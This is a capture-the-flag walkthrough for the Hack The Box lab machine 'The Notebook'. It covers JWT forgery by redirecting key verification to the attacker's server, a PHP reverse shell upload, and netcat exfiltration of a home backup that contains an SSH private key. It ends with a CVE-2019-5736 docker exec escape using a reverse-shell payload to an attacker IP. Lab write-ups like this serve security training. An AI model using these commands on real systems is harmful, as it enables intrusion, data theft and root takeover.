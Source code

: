 # Hack The Box Guide by Alen Peric:
## The Notebook
### IP: 10.10.10.230

### Summary: 

The Notebook introduces us to jwt token manipulation. Lots of interesting lessons on base64 encoding/decoding, constructing cookies and manipulating them. Great insight into transferring files using netcat. This machine also shows us how to manipulate the docker exec environment for privilege escalation. Touches on “go” and “tar” files, as well as ssh private keys for verification.

### CVE References:
- CVE-2019-5736 

**-------------------------------------------------------------------------------------------------------------------------------**

### Important Commands:
- ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
- openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
- nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz
- nc -nvlp 1717 > home.tar.gz
- ssh -i id_rsa noah@10.10.10.230 
- Sudo -l
- sudo /usr/bin/docker exec -it webapp-dev01 bash
- go build main.go

**-------------------------------------------------------------------------------------------------------------------------------**

### Notes:

Starting with enumeration, we observe that port 22 (SSH) and port 80 (HTTP) are open. There was also port 10010 open with rxapi, however that is a rabbid hole. Start your burpsuite, turn packet intercepts off and let’s head to the website. There is a small webapp running on there, where we are able to create an account and post notes to a website. After some experimenting trying to inject SQL and reverse shells to the website, we observe that there is a token that gets passed through the packet whenever we refresh the page. The cookie token looks like this:

Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1lMTIzIiwiZW1haWwiOiJtZUBtZS5jb20iLCJhZG1pbl9jYXAiOjB9.mtjs7cClGwfZSGFPP8gvpTXuFHCV7UOOxcvc7fvooUKkuOheg1RuiUqWo0Ba7CcC5fBozAU6Vt5jyJ0r1Qmtg1_j8VowZfbqJmwilf89TzDM977yb8WUuqp6fm_rHv0RzJPCQ0V0u_AqOKBr1UOvQsvnwgNO9VcLhpOtRuKovrcf2vY3cwbaK6zNzAT4n9RubQSW2rsmchX3t7FoHzP5Y8HmAbDBZifOEXMymu2Uwjl71S_IHcvGfzweBwa0iYBEsBC4vaDgXh7_RUVx5qn6AjWhrlCRzc24aD-gz-Omy8uVIfVxtRQJ3vyzud1pGkQjJO2bI94c_JjnjFH7WQoXHKjA4PE5bUz-BErCXl2uTPQKrzllKnPzUODfEUNgAQ_HnncBbB48QN69ja63_t3xbaH9Xvo-fiqGBaS68sAdxwFQDLdQ9fN_mcIyu1V9ibiKfZXKbiQmlB-TElmb1BX1bKgu7uLBrWGTV4cM5ucU1fGr0wX6UUazg1mQx5MGEUiCEW9qGL4ihPdUUzZwvP9PgDPGBFJeuwGWeEcnQpahBVEG04Jkmag8hoIMJUTFi35ZpLlcop4NzjSb_btrC0BGT9L6sh5xEeTZcb26g7RdCa5vhVQ_ARhZaUq8C4DIQNWg0uoIEmhSV8ed9JeikAloyUUrKqs44WUPwjDya_ob-2g; uuid=6662433b-f57b-43af-b026-04b151ed1a3c

This is a JWS token. It is encoded in base64. These tokens consist of a header, payload and signature. For this exercise, we will use the websites http://jwt.io and http://base64encode.com / http://base64decode.com/ . We can put the string into http://jwt.io and it shows us some of the fields that are in here. 



You will notice a few things. The red part of the text is the Header, the purple is the Payload and the blue is the signature. The mechanic that occurs here is once the website receives the packet from our host, it will check its localhost on port 7070 in order to make sure the signature of the cookie matches its private key. What we want to do here is modify the packet so that the machine will check our port to verify the signature with our private key. Changing anything on the Header and Payload on jwt.io will not update properly and as such we need to translate our token through the base64 website. We copy the red part of the text, decode it through base64, and change the localhost to our host IP. we re-encode the payload back to base64, add it to a notepad document and append a . to it, which is the separator in the token. We repeat the same for the payload, however, all we changed with the payload was the admin_cap bit from 0 to 1 which is going to make the user you created an admin for this cookie request. Modifying the bit only stays as long as we can generate our own cookie. 

Now it’s time to create a directory mkdir notebook && cd notebook then we generate a new set of ssh keys in this folder with the command: ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key this will generate new RSA keys for us. After this we are going to modify the format by issuing: openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub and then issue the cat command to view both files. We copy the entire key, including the ----BEGINNING OF RSA KEY---- and add both parts to our token in jwt.io website. This should show us that the signature is valid and the entire cookie is constructed. Before we are able to validate the cookie, we have to start hosting our privKey.key on port 7070. In order to accomplish this we start a mini python server on our port 7070, with the command python3 -m http.server 7070. Once this is accomplished, we refresh the notebook page, intercept the packet with burpsuite and replace the cookie token with the one we generated. If everything is done properly, once the website reloads, we should be able to access the admin panel. Remember that each page request will require you to replace the cookie token, in order to maintain admin access to the page. 

We can head to the admin panel now and we notice that we are able to upload files now. I uploaded a simple php reverse shell from Kali’s resources under /usr/share/webshells/php/php-reverse-shell.php or you could use the one from pentest monkey found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell and set up a netcat listener. Make sure to modify the php shell with your IP and port. Once the shell is uploaded we copy the name generated blablabla.php and append that name to the http://10.10.10.230/blablabla.php and that will trigger the reverse shell to call back to our netcat session. 

Now that we have a connection up and running, we issue the command whoami and it shows us we landed a shell as www-data. Browsing around the directory, we can find a copy of a home directory in /var/backups, as well as a home.tar.gz. While the home directory doesn’t give us all of the read permissions we need, we are able to read home.tar.gz just fine. We issue the command: nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz on the target machine and nc -nvlp 1717 > home.tar.gz on our host machine. This will transfer a copy of home.tar.gz which we can unpack to find a copy of noah’s home directory with the command: tar . In noah’s home is a .ssh folder with a copy of Noah’s private and public key. We can use the private key to authenticate trough ssh, without providing a password. In order to do this, we issue the command ssh -i id_rsa noah@10.10.10.230 

Now that we have access to Noah’s account,  we can cd into his home directory where we find the user flag. Time to escalate our privileges to root! The first thing we do, whenever we test privilege escalation, is to see if the sudo has allowed us to issue any commands as them, without requiring a password. We are able to run the command /usr/bin/docker exec -it webapp-dev01* 

We search for an exploit on google: docker exec exploit github and one of the first results that comes up is a CVE-2019-5736 PoC page: https://github.com/Frichetten/CVE-2019-5736-PoC 
We clone the repository, and modify the main.go file. We will modify the payload, where it says var payload = “blabla”, we will replace it with the following command: var payload = “#!/bin/bash \n echo 'bash -i >& /dev/tcp/10.10.16.160/1337 0>&1' > /tmp/rev.sh && chmod +x /tmp/rev.sh && bash /tmp/rev.sh"

After this is done, we save the file and build our main by issuing the command go build main.go
This should result in producing a compiled file called just main. Start a mini http server on port 1010 so we are able to upload the main to the target machine as this will be the payload that will be executed to get us to root. We go back to the target machine and issue our sudo command to get into the docker container: sudo /usr/bin/docker exec -it webapp-dev01 bash. Now that we are in the docker container, running as sudo, we open a second instance of noah’s ssh shell and start a netcat listener on port 1337 on our local machine. On the docker instance, we cd into /tmp and then issue a wget http://10.10.16.160:1010/main to download the main we just built with go. Once it is downloaded, we issue the chmod +x ./main command in order to add executable permissions to it. Before we run it, make sure to have the same sudo /usr/bin/docker exec -it webapp-dev01 bash ready in the second terminal, as you’ll have to be quick. Run the ./main in the first docker instance and while it is initializing, issue the command in the second ssh shell and you should hey the response: no help topic for ‘/bin/sh’ if you see this, you’re on the right track and once the command finishes compiling, it should start a shell to root account in the netcat session that is listening on port 1337 should connect via the payload and grant us root permissions. Now we can cd into /root and retrieve our root flag! Good job on finishing this lab!




**-------------------------------------------------------------------------------------------------------------------------------**

### Lessons:

Amazing learns about JWT token manipulation. Aside from being able to redirect the verification process to our local machine and sign with our own private key. The alternative is the ability to change the JWT token’s alg field to none, which omits the need for a signature in the cookie. Lots of great information in here: https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/ as well as the actual website for decrypting JWT tokens can be found here: https://jwt.io/ 
Additionally, here is a great website to convert base64 and encode it: https://www.base64encode.org/ also there seems to be a brute-forcing tool for jwt tokens on github here: https://github.com/ticarpi/jwt_tool/ 
Getting the root flag is as usual with first issuing the sudo -l command and using a docker exec exploit against it: https://github.com/Frichetten/CVE-2019-5736-PoC The exploit may be found here and all we need to do is manipulate the payload variable in order for it to execute our commands. Also another good look into transferring files using netcat. 
